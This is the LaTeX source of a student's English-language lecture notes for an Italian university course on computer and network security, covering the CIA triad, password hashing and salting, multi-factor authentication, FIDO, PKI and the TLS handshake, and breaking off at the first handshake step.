\documentclass{article}

% DIMENSIONE PAGINA
\usepackage[a4paper,top=2cm,bottom=2cm,left=2cm,right=2cm,marginparwidth=1.75cm]{geometry}

%LAYOUT PAGINA
\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhead[R]{Introduction to Computer and Network Security}
\fancyfoot{}
\fancyfoot[C]{\thepage}
\fancyhead[L]{\leftmark}

\usepackage[utf8]{inputenc}
\usepackage{longtable}
\usepackage{graphicx}
\graphicspath{ {./images/} }
\usepackage{float} %Per posizionamento H


\usepackage{hyperref} %per TOC linkable

\usepackage{chngcntr} %Per numeration figure 
\counterwithin{figure}{section}

\counterwithin{footnote}{section}

\hypersetup{
    colorlinks,
    citecolor=black,
    filecolor=black,
    linkcolor=black,
    urlcolor=black
}


% PER paragraph
\newcommand{\myparagraph}[1]{\paragraph{#1}\mbox{}\\}

% Ridefinizione spazio liste
\usepackage{enumitem}
\setlist{nolistsep}
\setlist{itemsep=0pt,parsep=0pt,topsep=4pt,partopsep=2pt}

\usepackage{placeins} %per float barriers


\begin{document}

\begin{titlepage} %crea l'enviroment
\begin{figure}[t] %inserisce le figure
    \centering
\includegraphics[scale=0.1]{images/unitn.png}
\end{figure}
\vspace{20mm}

\begin{Large}
 \begin{center}
	Dipartimento di Ingegneria e Scienza dell'Informazione
	
	\textbf{Corso di Laurea Triennale in Ingegneria Informatica, delle Comunicazioni ed Elettronica}
	
	\vspace{5mm}

    \hrulefill
    
    \vspace{25mm}
	
    {\LARGE{Appunti delle Lezioni}}\\
	\vspace{10mm}
	{\huge{\bf Introduction to Computer and Network Security}}\\
\end{center}
\end{Large}


\vspace{36mm}
%minipage divide la pagina in due sezioni settabili
\begin{minipage}[t]{0.47\textwidth}
	{\large{\bf Autore:\\Davide De Martini}}
\end{minipage}
\hfill
\begin{minipage}[t]{0.47\textwidth}\raggedleft
	{\large{Professore: \\Silvio Ranise}}
\end{minipage}

\vspace{25mm}

\hrulefill

\vspace{5mm}

\centering{\large{\bf Anno Accademico 2022/2023 }}

\end{titlepage}

\renewcommand*\contentsname{Chapters}

    \tableofcontents
    \section{Basic Notions}
    \subsection{The CIA Triad}
    In order to define the concept of security we need to introduce three proprieties called the \textbf{CIA Triad}, these proprieties are goals that everyone should aim to, they define the notion of security.
    \begin{itemize}
        \item \textbf{Confidentiality:} The ability to prevent unauthorised \textit{disclosure} of information and permit authorised sharing of information, this ability is most related on the \textit{access} of an information.
        \item \textbf{Integrity:} The ability to prevent unauthorised \textit{modification} of information and permit authorised modification of information, this ability is most related on \textit{editing} an information.
        \item \textbf{Availability:} The ability to prevent unauthorised withholding of information or services and readly permit authorised access to information or services, this ability is most related to \textit{guarantee the continuity} of the service or information.
    \end{itemize}
    
    \myparagraph{Confidentiality}
    Preserving authorised restrictions on information access and disclosure, including means for protecting personal privacy and proprietary information. Confidentiality covers data in storage, during processing and while in transit. Unauthorised access could be \textbf{intentional} such as intruder breaking into the network or \textbf{unintentional} due to incompetence of who store the data. 
    
    Typically we guarantee confidentiality with \textbf{data encryption} or using an \textbf{access control} mechanism.

    A data breach is an example of how important is to guarantee Confidentiality for a big company (e.g. Facebook).
    
    \myparagraph{Integrity}
    Guarding against improper information modification or destruction, including to ensure the non-repudiation and authenicity of the data. So this is the propriety that guarantee that sensitive data has not be modified or deleted in an unauthorised and undetected manner. Data integrity can be compromised through human errors and attacks like malware or ransomware.
    
    We can guarantee integrity implementing version control and audit trails\footnote{Track the data modification, like logs}.
    
    \myparagraph{Availability}
    Ensuring timely and reliable access to and use of information for authorised users, assure that systems work promptly and service is not denied to authorised users. Violations of availability include infrastructure failures like network or hardware issues, infrastructure overload, power outages and attacks such as Distributed Denial of Services (DDoS) or Ransomware.
    
    We can guarantee availability employing a \textbf{backup} system and a \textbf{disaster recovery} plan, or utilizing \textbf{cloud} solutions for data storage.
    \\\\
    The CIA triad is essential because it allows for achieving \textbf{security}, it's at the same time a positive and negative characteristic: positive since it applies to a wide range of situations and use cases, negative since it must be instantiated to every situation and use case. Such instantiations are called \textbf{security policies} that require \textbf{security mechanisms} to be enforced.
    
    CIA triad is also important to help us to understand \textbf{security violations}, let's consider a ransomware attack, it violate Confidentiality because it access in the computer without our permission, Integrity because all the Data is copied and Availability because it encrypt all data in our computer. We can use the \textbf{zero trust} framework to mitigate this attack, it require all users to be authenticated, authorized and continuosly validated (this is a risk management). CIA triad is crucial for risk management, it involves identifying, assessing and treating risks.
    Risk management main phases:
    \begin{itemize}
        \item Identification of assets, vulnerabilities, threats and controls
        \item Assessment as likelihood and impact of a threat exploiting a vulnerability
        \item Treatment to reduce risks by selecting appropriated controls
    \end{itemize}   
    
    \subsection{Security Policies and Mechanisms}
    With the term security \textbf{policy} we identify all the rules and the requirements established by an organization to protect confidentiality, integrity and availability of its information. An example of this is the protocol that a company need for example to access a sensitive area (biometric recognition ecc.).
    
    With the term security \textbf{mechanism} we refear to a device or a function designed to provide one or more security services, it's an implementation of a security policy, it could be hardware or software. Examples could be an authentication process, authorization or an access control.
    
    With the trem security \textbf{service} we refer to a capability that supports one or more of the security requirenebts. An example could be the HTTPS protocol that add the TLS protocol in HTML.
    
    \subsection{Threat, Vulnerability and Attacks}
    \myparagraph{Definitions}
    A \textbf{vulnerability} is a weakness in an information system that could be exploited in order to perform an attack, examples are hidden backdoors, unknown software bugs or weak passwords. It can be characterized by how easy it is to identify them and exploit them.
    
    A \textbf{threat} is any circumstance or event with the potential to adversely impact an informative system or some datas via unauthorized access, destruction, disclosure, modification of information or denial of service. An example of threat are hackers that exploit a vulnerability in order to perform attacks. It can be characterized as a combination of intent (propensity of attack) and capability (ability to successfully attack).
    
    An \textbf{attack} is any kind of malicious activity that attempts to collect, disrupt, deny, degrade or destroy information system resources or the information itself. So it refears to any attempt of violating the "CIA" of a system.
    
    A \textbf{threat} exploit a \textbf{vulnerability} in order to perform \textbf{attacks}.
    
    \myparagraph{Risk}
    The combination of a Threat and a Vulerability produce a \textbf{Risk}, this has two proprieties: the \textit{likelihood} so the probability that something bad happen and the \textit{impact}. In HTTP for example there isn't any notion of security so the likelihood of the risk is high because is easy to perform.
    
    A \textbf{risk} is the probability that a particular security threat will exploit a system vulnerability, is in function of the \textit{adverse impact} that would arise if the circumstance or event occours and the \textit{likelihood od occurrence}.
    
    A threat model is a structured representation of all the information that affects the security of an application, it typically include:
    \begin{itemize}
        \item Description of the system to be modelled 
        \item Assumption that can be challenged in the future 
        \item Potential threats to the system
        \item Controls that can be taken to mitigate each threat
        \item A way of validating the model and threats, and verification of success of controls taken
    \end{itemize}   
    
    
    \section{Authentication I: Passwords n' Co}
    \subsection{User authentication and digital identity}
    Let's start defining what an \textbf{identity} is: it's a set of \textbf{attributes} related to an entity, an attribute is a characteristic or property of an entity that can be used to describe its state, apparence or other aspect. A 
    \textbf{digital identity} is an identity whose attributes are stored and transmitted in a digital form, this is an opportunity to drive transformational change for citizens, businesses and pubblic administrations.
    
    \myparagraph{Digital Identity Lifecycle}
    \begin{itemize}
        \item \textbf{Enrollment:} Is the process through which an applicant applies to become a subscriber of an identity system, and the identity system validates the applicant's identity.
        \begin{itemize}
            \item Resolution: Collection of Personal Identifiable Information (PII) from the applicant (Full name, Date of birth, Home address ...), sometimes requires to collect two form of identity evidence (driver license and passport ...).
            \item Validation: Validation of the information supplied above by checking an authorative source, the check could be performed by coherence of the information on the documents.
            \item Verification: Sending an enrollment code to the validated phone number of the applicant or asking the applicant for a photo of themselves. 
        \end{itemize}   
        An Identity Assurance Levels (\textbf{IALs}) are categories that convey the degree of confidence that the applicant's claimed identity is their real identity, there are three levels:
        \begin{itemize}
            \item \textbf{IAL 1:} Attributes, if any, are self-asserted or should be treated as self-asserted
            \item \textbf{IAL 2:} Either remote or in-person identity proofing is required
            \item \textbf{IAL 3:} In-person identity proofing is required. 
        \end{itemize}
        \item \textbf{Authentication} Is the process of verifying the identity of a user, process or device. The claimant must demonstrate to the verifier that is indeed the one that claims to be. An example of authentication is the password-base authentication
        \item \textbf{Authorization} Process of checking user's permissions
        \item \textbf{Deregistration} End of relationship
    \end{itemize} 
    
    \subsection{Introduction to passwords}
    When logging on to a computer you enter \textbf{username} and \textbf{password}, so you annuce who you are and prove it with the password. Password should be secrets shared between user and system but we know that usually is not the case.
    Password has to be random and long and at the same time easy to memorize, it's something difficoult to find. Nowadays there are other mechanisms that come with passwords like OTP or biometric.
    
    On-line we can mitigate the risk of cracking password setting a maximum numbers of attempts and then block the authentication procedure for a certain interval, Off-line is a different story, attackers are able to make bruteforce attacks and still nowadays this is a problem, attackers perform bruteforce or dictionary attack and with the nowadays computational capability it's so easy (see also AWS). Possible mitigations are change default passwords and avoid guessable password, for example start to make password using sentences that we can easily remember but hard to guess.

    A solution for remembering long and random passwords could be using Password generators and managers but as online services that also require a password to enter the personal database of password the problem don't change and vanish.
    
    \subsubsection{Hashing}
    Now that we know that the password are used and needed there is the problem to how store them and how to protect the file that contain the passwords. The most common used method is hashing them.
    
    Cryptographic hash functions are 1-way functions that are relatively easy to compute but hard to reverse, instead of the password we store the digest. 1-way means that it's impossible to "decrypt" it, even if attackers obtain the hashed password, they cannot enter it into an application's password field and log in as the victim. We don't use encryption cause it's a 2-way function (meaning that the original plaintext can be retrieved). Hash functions have these proprieties
    \begin{itemize}
        \item Ease of computation: given x is easy to compute f(x)
        \item Compression: the output of the function is always a fixed bit-lenght n
        \item One way: Given a value y it is computationally infeasible to find an input x so that f(x)=y
        \item Weak collision resistance: given an input x and f(x) it's computationally infeasible to find another input x', x != x' with f(x) = f(x')
        \item Strong collision resistace: it's computationally infeasable to find any two inputs x and x', x != x' with f(x) = f(x')
    \end{itemize}
     So we see that hashing algorithm has a strong collision resistance, it's very rare that two message produce the same digest, it is still possible but the likelihood that such a collision can happen should be negligible. An example of collision is that nowadays MD5 (an hashing algorithm) is deprecated because hackers used collision attacks to exploit the password authentication. A common implementation nowadays is the Argon2.
     
    \myparagraph{Problems}
    Nowadays hackers use the "dictionary attacks", they have a database with pre-computed hashes (called rainbow tables) and they bruteforce password with this mechanism.
    
    \subsubsection{Salting}
    To slow down dictionary attacks, a salt (random string of character) is appended to the password before hashing and stored with the hashed password, so now if two users has the same password they now have two different digest stored. Salting decrease the predictability of the digests
    
    \begin{figure}[h!]
        \centering
        
\includegraphics[scale=0.5]{images/prova.png}
        \caption{How salting works}
        \label{fig:salt}
    \end{figure}
    
    \FloatBarrier   
    
    As we can see salting is a good mitigation for the dictionary attacks.

    So we can see that the longer it takes to compute a digest, the longer a brute force attack will take. The work factor is the number of iterations of the hashing algorithm that are performed for each password, its purpose it's to make calculating the hash more computationally expensive. It's good to choice a balance between security and performance (general rule is that calculating a digest should take less than a second).

    Said that the risk of phishing remain (and with this the riks of get the password stolen).
    
    \subsection{Extension of password based authentication}
    We can extend the concept of passwords utilizing the multi factor authentication that can be performed by
    \begin{itemize}
        \item knowledge, something only the user knows (personal id number)
        \item ownership, something only the user possesses (token, smart card, phone)
        \item inherence, something the user is (biometrics)
    \end{itemize}
    The multi factor authentication is the combination of a password and another thing to perform the authentication (it can be also more than one another thing). The most common one is the 2FA (two factor authenticator), performed with a password and a OTP (one time password). Or a more common could be when you go to the ATM you insert the card and digit a PIN in order to use the services.
    
    \myparagraph{Time based One Time Password}
    OPT that has a deadline, they have two parameters the $T_0$ that is the Unix time from which start counting time steps, $T_x$ interval which will be used to calculate the value of the counter. Authenticator and authenticatee compute the TOTP value then the authenticator checks if the TOTP value supplied by the authenticated matches the locally-generated TOTP value. The weakness is that OTP values can be phished just as passwords can and replayed, another thing is that if the shared secret is no more secret an attacker could generate new valid TOTP.
    \begin{figure}[h!]
        \centering
        
\includegraphics[scale=0.35]{images/TOTP.png}
        \caption{A TOTP communication}
        \label{fig:TOTP}
    \end{figure}
    
    \FloatBarrier   
    
    \myparagraph{Challenge Response Protocols}
    In CRP encryption convers the original representation of the information (\textbf{plaintext}) into an alternative form (ciphertext). Only authorized parties can decipher a ciphertext back to plaintext and access the original information. Encryption denies the intelligible content to a would-be interceptor.
    
    It's a mitigation for MITM attacks, since challenge changes at every connection and the password in clear doesn't leave the client, the MITM cannot reuse previously intercepted hashed password.
    
    \begin{figure}[h!]
        \centering
        
\includegraphics[scale=0.4]{images/CRP.png}
        \caption{CRP communication}
        \label{fig:CRP}
    \end{figure}
    
    \FloatBarrier   
    
    \myparagraph{PSD2}
    PSD2 is a solution to remove the TOTP hardware token, this because in the past they where hacked and they spoofed all the users. Chinese attackers spoofed Lockheed Martin staff-Sole plans for F-35 fighter jet. PSD2 idea is to include in the challenge the data that are unique to the particular transaction such as destination of transaction, amount of transaction ecc. But this is not enoungh, need to add random data.
    \\\\
    We can also use \textbf{smartphones} as part of MFA, no additional token are required, dinamically generated passcodes are safer. It has it's disadvantages too, a mobile phone is not always available, the mobile connection is not always available, there are sim cloners, text message could be stolen.
    \\\\
    \myparagraph{Assurance level NIST}
    \begin{enumerate}
        \item Provides some assurance that the claimant controls the authenticator, require at least a \textbf{single factor authentication.}
        \item Provides high confidence that the claimant controls authenicators, \textbf{two different authentication factor} are required.
        \item Provides very high confidence that the claimant controls the authenticator, authentication based on \textbf{proof of possession of a key} through a cryptographic protocol.
    \end{enumerate}
    
    Unfortunately even MFA procedures can be vulnerable to phishing attacks, example MFA fatigue attacks (flooding a user with push notification in the hope that will accept one).

    Phishing in general can be solved avoiding password!
    
    \myparagraph{FIDO}
    The main idea of fido is avoiding passwords, Google reported that it has not had any of it's 85000+ employees successfully phished on their work-related accounts since early 2017 when they started using physical security keys in place of passwords and one-time code.
    
    A security key implements a form of multi-factor authentication known as \textbf{Universal 2nd Factor (U2F)}, which allows the user to complete the login process simoly by inserting the USB device and pressing a button on it. Web Authentication API (\textbf{WebAuthn}) is a standard that eliminates the need for users to constantly type in their passwords and instead uses \textbf{Public key cryptography in combination with a challenge response protocol.} This avoid the possibility of phishing and MITM.
    
    FIDO requires an initial registration step: in cases where the user device supports multiple forms of authentication the user is asked to choose a FIDO compliant authenticator from the option available. The user then unlocks the FIDO authenticator using whatever mechanism is built into the authenticator, once is unlocked the user's device creates a new and unique public/private cryptographic key pair that will be used for authenticating access (\textbf{public one} is sent on the online server and associated with user account, the \textbf{private} and the other sensitive data remain on the local device and never leave it). Authentication requires the client device to prove possession of the private key by successfully respond to a cryptographic challenge. Private key can only be used after successfully authenticating using the registered authenticator, the device then uses the user account identifier provided by the service to select the correct key and cryptographically sign the service's challenge. Finally signed challenge is sent back to the service which verifies it and log in the user.
    
    \subsubsection{Outsourcing Authenticator}
    National digital identity infrastructures sponsored by many member states in europe obtained different level of success because of the not always clear business models for identity providers (an example of this is the Sistema Pubblico di Identità Digitale (SPID) in Italy). The problem is that securing all the phases of the identity management lifecycle is far from being trivial, organizations lack resources to devote ton security and need to focus on their core business. A solution could be to delegate the authentication to a trusted third party identity provider. Another example are the Single Sign On \textbf{(SSO)} like login with google or facebook ecc. This technique has lot of pros but a very big con: only one password to compose, if we use SSO+MFA we can improve a lot our security.
    Also it's a single point of failoure so needs to put more effort on the security part
    %--LECTURE PAGE 41--%
\section{Cryptography}
    \subsection{Introduction to Cryptography}
    \textbf{Cryptography} is the science and study of secret writing, \textbf{cryptoanalysis} is the science and the study of methods of breaking ciphers, \textbf{Cryptology} is cryptography and cryptoanalysis. Today cryptography is the study of mathematical techniques related to aspects of information security such as:
    \begin{itemize}
        \item \textbf{Confidentiality}: encryption algorithms hide the content of messages
        \item data \textbf{Integrity}: integrity check functions provide the means to detect whether a document has been changed
        \item entity authentication 
        \item data origin authentication: message authentication codes or digital signature algorithms provide the means to verify the source and integrity of a message
    \end{itemize}
    Cryptography is a security mechanism that includes a set of techniques for scrambling or disguising data so that is available only to someone who can restore the data to its original form. It provides a string economical basis for offering data security as a security service.
    
    \myparagraph{Cryptosystem}
    A cryptosystem is a 5-tuple (E,D,M,K,C) where
    \begin{itemize}
        \item \textbf{E} is an \textit{encryption} algorithm
        \item \textbf{D} is a \textit{decryption} algorithm
        \item \textbf{M} is the set of \textit{plaintexts}
        \item \textbf{K} is the set of \textit{keys} 
        \item \textbf{C} is the set of \textit{ciphertexts}
    \end{itemize}
    
    So $D(E(m,k),k)=m$, encryption and decryption keys are not necessarily the same (simmetric or asimmetric cryptography).
    
    \textbf{Kerckhoffs principle}: do not rely on the secrecy of algorithms, the key should be the only secret that needs protection
    
    \myparagraph{About Keys}
    A key is an input to a cryptographic algorithm used to obtain confidentiality, integrity and authenticity or other property over some data, security depends on keeping the key secret.
    
    %PAGE 12%
    \section{Cryptography at work: PKI and TLS}
    \subsection{Recall of PKC}
    The Public Key Cryptography pros
    \begin{itemize}
        \item Private key is only known by the owner
        \item Confidentiality by encrypting with \textit{Receiver's Public Key}
        \item Non repudiation by encrypting with \textit{Sender's Private Key}
    \end{itemize}
    The cons are
    \begin{itemize}
        \item Low efficency: algorithms are 2-3 orders of magnitude slower than those for symmetric encryption
        \item How to distribute public keys
        \item There is still a big problem of Authentication: who ensures that the owner of a key pair is really the person whose real life name is "Alice".
    \end{itemize}  
    So in reality the \textbf{non repudiation} cannot be proven, cause we don't have the certified binding between an entity and it's public key. A mitigation for this is a \textbf{Digital signature}, a data item that vouches the origin and the integrity of a message, the originator of the message uses private key to sign the message, the recipient uses the public key of the sender to verify the origin. 
    
    \begin{figure}[h!]
        \centering
        
\includegraphics[scale=0.3]{images/PKCcomm.png}
    \end{figure}
    
    \FloatBarrier
    
    The problem now is who guarantees that the one using the key is entitled to do so?
    
    \subsection{Public Key Infrastructure (PKI)}
    The main requirement on public key is to be authentically bound to the identity of the party controlling the corresponding private key, another requirement is that parties relying on the correctness binding between public keys and corresponding party identities can be assured that the binding is still valid. Statisfying these two requirements is typically done by setting up a \textbf{Public Key Infrastructure}.
    
    \myparagraph{Digital Certificates}
    The initial proposal was to store the certificates fot binding public keys and identities as a bulletin boards so the public key and identities are listed. This is not scalable and has a single point of failure. Another propose was to hardcode the public key in the software, this approach was used in IoT at first but deprecated when discovered that this leads at possible vulnerability doing reverse engineering. 
    
    A widely adopted solution is the use of \textbf{digital certificates}, are digital objects containing data including the identity and the public key that are signed by a Trusted Third Party \textbf{(TTP)}, it bind an entity's Public Key and one or more attributes concerning its Identity (entity can be a person, an hardware component, a service ...). A Digital Certificate is issued and signed by a TTP that is also called Certificate Authority \textbf{(CA)}. The standard for certificates is the X.509, the validity of this certificate last for 6/12 month and at the end has the CA digital signature to prove the authenticity. For now this only moves the problem of checking the correctness of the binding between identity and public key to the distribution and keeping up to date the TTP's public key to check the authenticity of the certificate. This infinite regression problem is solved hardcoding the TTP public keys into the browsers.
    
    \subsection{Public Key Infrastructure}
    A Public Key Infrastructure \textbf{(PKI)} is an arrangement that binds public keys with respective identities of entities. The binding is established through a process of registration and issuance of certificates at and by a \textbf{CA} (Certificate Authority). The PKI role that assures valid and correct registration is called a \textbf{RA} Registration Authority. A third-party Validation Authority \textbf{(VA)} can provide an entity information on behalf the CA. Also has a Certificate distribution system that is composed of the repository for certificates and the CRL (Certificate Revocation List).
    
    So a PKI is a system that provides for a TTP to vouch for user identities and allows binding of public keys to subjects. Components:
    \begin{itemize}
        \item root Certificate Authority (CA), the most significant element in the CA hierarchy, root CA authorizes subordinate CAs. The subordinate CAs is responsable for issuing certificates.
        \item Registration Authority (RA) that verifies information in a certificate request, certificate are not issued until RA validation.
        \item Cryptographic Practices Statement (CPS) that is a declaration of the security that the organization is implementing.
        \item Certificate Revocation List (CRL) that tell us if the certificate is still valid or it has been revoked
    \end{itemize}
    
    \begin{figure}[h!]
        \centering
        
\includegraphics[scale=0.3]{images/PKI.png}
        \caption{The PKI infrastructure}
        \label{fig:pki}
    \end{figure}
    
    \FloatBarrier
    
    To obtain a certificate a user generates a Public and Private key-pair or is assigned a key-pair by some authority in their organization, user request the certificate of the CA server. The CA responds with its Certificate including its Public Key and its Digital Signature signed using its Private Key. User gathers all information required by the CA Server to obtain its certificate, it also sends a certificate request to the CA consisting of her Public Key and additional information. The certificate request is signed by user Private Key. CA gets the certificate request, verifies user identity and generates a certificate for user, binding her identity and her Public Key. The signature of CA verifies the authenticity of the Certificate. CA issues the certificate to user.
    \begin{figure}[h!]
        \centering
        
\includegraphics[scale=0.3]{images/obtaincertificate.png}
        \caption{How to obtain a certificate}
        \label{fig:obtainingc}
    \end{figure}
    
    \FloatBarrier
    
    Let's focus on the procedure of requesting, is also called the step in which a Certificate Signing Request \textbf{(CSR)} is generated, it contains information identifying the requester, the public key chosen by the requester, additional proofs of identity and a digital signature.

    TTPs must be trustworthy in issuing certificates only to the right parties, in the past TTPs were involved in incidents resulting in certificates issued to the "wrong" parties. As a result google and other companies launched an initiative for building a platform for checking certificate transparency.

    Another thing is that we need to know if certificates are still valid or not, this is done locally with the CRL but it has to always be up-to-date, or using online certificate status protocol (OCSP) that provides an API to check if a certificate is in the CRL but it requires high bandwidth.
    
    \subsection{SSL and TLS}
    \subsubsection{Introduction}
    Secure Sockets Layer \textbf{(SSL)} and Transport Layer Security \textbf{(TLS)} wants to provide user with identity of page origin and indicate to user that page contents were not viewed or modified by a network attacker. HTTPS that stays for HTTP over TLS/SSL provides authentication of the website and associated web server with which one is communicating (protection against MITM), bidirectional encryption of communications between a client and a server.
    \subsubsection{TLS overview}
    TLS is used in client-server applicatin, it consists of two main protocols: the \textbf{Handshake protocol} that uses PKC to establish a shared secret key between the client and the server and the \textbf{Record protocol} that uses the key established in the handshake to protect communication between the client and the server.
    \myparagraph{Handshake protocol}
    Two parties: client and server, they negotiate the version of the protocol and the set of cryptographic algorithms to be used, it authenticate client and server and use public key to establish a shared secret
    \myparagraph{Record protocol}
    It provides confidentiality and Integrity, on the send side it fragment data into blocks applying authentication and encryption primitives to each block, finally handing the block to TCP for transmission over the network. On the receice side the blocks are decrypted and verified for message integrity, then reassembled and delivered to the higher level protocol.
    \subsubsection{TLS 1.2: Details of the handshake}
    
    \begin{figure}[h!]
        \centering
        
\includegraphics[scale=0.4]{images/handshakeTls.png}
        \caption{TLS handshake}
        \label{fig:tlsH}
    \end{figure}
    
    \FloatBarrier
    
    \myparagraph{Step 1}
